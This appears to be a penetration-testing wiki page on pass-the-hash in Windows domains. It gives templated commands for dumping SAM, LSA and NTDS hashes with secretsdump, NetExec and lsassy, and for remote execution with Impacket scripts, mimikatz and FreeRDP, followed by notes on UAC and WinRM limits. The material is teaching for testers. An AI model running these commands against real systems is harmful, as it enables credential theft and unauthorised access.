 An attacker knowing a user's NT hash can use it to authenticate over NTLM (pass-the-hash) (or indirectly over Kerberos with overpass-the-hash).

There are many tools that implement pass-the-hash: Impacket scripts (Python) (psexec, smbexec, secretsdump...), NetExec (Python), FreeRDP (C), mimikatz (C), lsassy (Python), pth-toolkit (Python) and many more.
=== "Credentials dumping"
    The Impacket script secretsdump (Python) has the ability to remotely dump hashes and LSA secrets from a machine
    ```bash
    secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
    secretsdump.py -hashes ':NThash' 'DOMAIN/USER@TARGET'
    secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
    ```
    NetExec (Python) has the ability to do it on a set of targets. The `bh_owned` has the ability to set targets as "owned" in BloodHound
    ```bash
    netexec smb $TARGETS -u $USER -H $NThash --sam --local-auth
    netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --lsa
    netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash --ntds
    ```
    Lsassy (Python) has the ability to do it with higher success probabilities as it offers multiple dumping methods. This tool can set targets as "owned" in BloodHound. It works in standalone but also as a NetExec module
    ```bash
    netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy
    netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -M lsassy -o BLOODHOUND=True NEO4JUSER=neo4j NEO4JPASS=Somepassw0rd
    lsassy -u $USER -H $NThash $TARGETS
    lsassy -d $DOMAIN -u $USER -H $NThash $TARGETS
    ```
=== "Command execution"
    Some Impacket scripts enable testers to execute commands on target systems with pass-the-hash.
    ```bash
    psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
    smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
    wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
    atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
    dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
    ```
    NetExec (Python) has the ability to do it on a set of targets
    ```bash
    netexec winrm $TARGETS -d $DOMAIN -u $USER -p $PASSWORD -x whoami
    netexec smb $TARGETS --local-auth -u $USER -H $NThash -x whoami
    netexec smb $TARGETS -d $DOMAIN -u $USER -H $NThash -x whoami
    ```
    On Windows, mimikatz (C) can pass-the-hash and open an elevated command prompt with `sekurlsa::pth`.
    ```bash
    sekurlsa::pth /user:$USER /domain:$DOMAIN /ntlm:$NThash
    ```
=== "RDP access"
    [FreeRDP](https://github.com/FreeRDP/FreeRDP) (C) has the ability to do pass-the-hash for opening RDP sessions.
    ```bash
    xfreerdp /u:$USER /d:$DOMAIN /pth:'LMhash:NThash' /v:$TARGET /h:1010 /w:1920
    ```
!!! warning
    **UAC limits pass-the-hash**

    UAC (User Account Control) limits which local users can do remote administration operations. And since most of the attacks exploiting pass-the-hash rely on remote admin operations, it affects this technique.

    - the registry key `LocalAccountTokenFilterPolicy` is set to 0 by default. It means that the built-in local admin account (RID-500, "Administrator") is the only local account allowed to do remote administration tasks. Setting it to 1 allows the other local admins as well.
    - the registry key `FilterAdministratorToken` is set to 0 by default. It allows the built-in local admin account (RID-500, "Administrator") to do remote administration tasks. If set to 1, it doesn't.
    In short, by default, only the following accounts can fully take advantage of pass-the-hash:

    - local accounts : the built-in, RID-500, "Administrator" account
    - domain accounts : all domain accounts with local admin rights
!!! note
    **WinRM enables pass-the-hash**

    Testers should look out for environments with WinRM enabled. During the WinRM configuration, the `Enable-PSRemoting` sets the `LocalAccountTokenFilterPolicy` to 1, allowing all local accounts with admin privileges to do remote admin tasks, hence allowing those accounts to fully take advantage of pass-the-hash.

    **Machine accounts**

    Just like with any other domain account, a machine account's NT hash can be used with pass-the-hash, but it is not possible to operate remote operations that require local admin rights (such as SAM & LSA secrets dump). These operations can instead be conducted after crafting a Silver Ticket or doing S4U2self abuse, since the machine accounts validates Kerberos tickets used to authenticate to a said computer/service.

    A domain controller machine account's NT hash can be used with pass-the-hash to dump the domain hashes (NTDS.dit).